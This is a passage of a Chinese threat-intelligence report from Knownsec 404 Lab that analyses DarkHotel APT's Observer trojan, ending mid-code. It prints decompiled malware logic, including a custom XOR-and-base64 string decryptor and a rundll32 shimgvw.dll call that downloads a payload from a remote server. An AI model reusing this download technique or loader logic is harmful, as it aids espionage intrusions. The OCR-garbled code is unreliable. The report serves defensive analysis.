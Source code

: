# 威胁情报丨DarkHotelAPT组织Observer木马攻击分析  

原创404高级威胁情报知道创宇404实验室2024年09月10日17:36湖北  

作者：K&XWS@知道创宇404高级威胁情报团队时间：2024年9月10日  

## 1.情况概述  

今年6月，知道创宇404高级威胁情报团队在分析过程中发现了几个APT组织的攻击样本，通过同源关联到其他的攻击木马，并对此展开了分析。根据近期国内外安全厂商发布的“伪猎者APT”组织的文章，对比确认为同一批通过WPS漏洞进行网络攻击的最终载荷木马[1][2]。  

2023年8月至2024年7月，我们观察到Darkhotel的持续攻击活动，并使用了两套不同的攻击武器及技战术。攻击行业也早已脱离了Darkhotel名字代表的酒店行业。Darkhotel是有着东亚背景，针对企业高管、政府机构、国防工业、电子工业等重要机构实施网络间谍攻击活动的APT组织，其足迹遍布中国、朝鲜、日本、缅甸、俄罗斯等国家。2019年之后有关Darkhotel组织的行动在开源情报中的占比连年降低，同时国内厂商曝光了数个具有东北亚背景且技战术不同的攻击集合，我们认同这些攻击集合都是Darkhotel的子集，Darkhotel只是一个代表了该背景的攻击集合名字。  

## 2.木马分析  

### 2.1 样本攻击/释放链  

![](https://cdn-mineru.openxlab.org.cn/extract/103aa1a5-b284-4a46-9240-02d632351910/57c5d4a3223d2ac7157fff68d20786fc5190509a8ea1d0b1a5bfbc7bd9dfbeec.jpg)  

### 2.2 样本功能综述  

本次捕获的类型1向服务端请求下载一个文件，该文件解密后释放的载荷与类型2几乎一致。与类型2不同的是，类型1在下载阶段还额外下载了一个Ink文件，该lnk文件的主要功能是通过COM劫持以运行释放的载荷（实际类型1下载的文件是将类型2中的文件进行了合并）。相较于类型2，类型3样本在文件解密后释放了两个载荷。根据类型3中PDB路径信息，将其记为Observer，接下来将就各类型样本进行描述。  

#### 2.2.1类型1分析描述  

类型1样本为dll文件，该dll存在一个名为mydllmain的导出函数。  

<html><body><table><tr><td>Name</td><td>Address</td><td>Ordinal</td></tr><tr><td>mydllmain</td><td>1000101B</td><td>1</td></tr><tr><td>DllEntryPoint</td><td>100030D9</td><td>[main entry]</td></tr></table></body></html>  

该DLL文件中的大部分字符使用了攻击者自定义的加密算法处理，该算法自2023年起一直被使用至今，解密算法逻辑为异或3再解base64：  

if（ \*(_BYTE \*)(a1 + a2 - 1） =='>') $^{\star}\a\Vdash\quad=\quad-\lor4$ ;   
if ( \*(_BYTE \*)(a1 + a2 - 2) == $*_{\sf{a}3}=-{\sf v}4$ ;   
$\vee5=$ malloc(__CFADD__( $\mathsf{v}4$ ，10) ？ -1 :v4 + 10);   
$v6=$ dword_10024478;   
$\smash{\vee}7~=~\vee5$ ;   
$\vee21~=~\vee5$   
if （!dword_10024478 )   
{ $\vee8=$ malloc(0x100u); $v6=(\mathrm{int})v8$ ; $\vee9=\theta$ dword_10 $\theta24478~=~(\mathrm{int})v\xi$ ： do { v8[(unsigned __int8)BASE64_table_10020C58[v9] \~ 3] = v9; $++V9$ ； } while （v9 < 64 );  

滥用合法的windows的照片库查看器组件shimgvw.dll，通过其中的函数ImageView_Fullscreen 从远程服务器上下载文件zetaq.txt：  

sub_100010AB( Arglist, 0x12Cu, "A2BD7BYBApBDtBNtBzB@7BYRA7BDVBJBAGBG1B[BA[BDhBadAhBDBgtAyBEtBVtA6BKNBgBAoBD3BNtBzBEtBtA1BDhBaRAmBKZBgtBVBDRBaBAp" "B@tBPRAWBDFBYtAoBEZBbRAoBKB[tADBKVBaBApBKNBZtAzBDVBYRAVBB>>");   
v3=strlen(Arglist);   
vθ=decrypt_1ee026A4（（int)ArgList,v3,（int\*）&v3);// rund1132.exe C:1\Windows\1System3211shimgvw.dll,ImageView_Fullscreen   
\*（_WORD\*)&vθ[v3]=0;   
sub_10001024（Buffer,0x12Cu,(wchar_t\*)L"%s"，vθ);   
free(vo);   
memset(&StartupInfo,0,sizeof(StartupInfo));   
StartupInfo.cb =68；   
StartupInfo.wShowwindow=0;   
StartupInfo.dwFlags=1;   
hobject=0;   
\*（&hobject+1）=0;   
\*(&hobject + 2)=0;   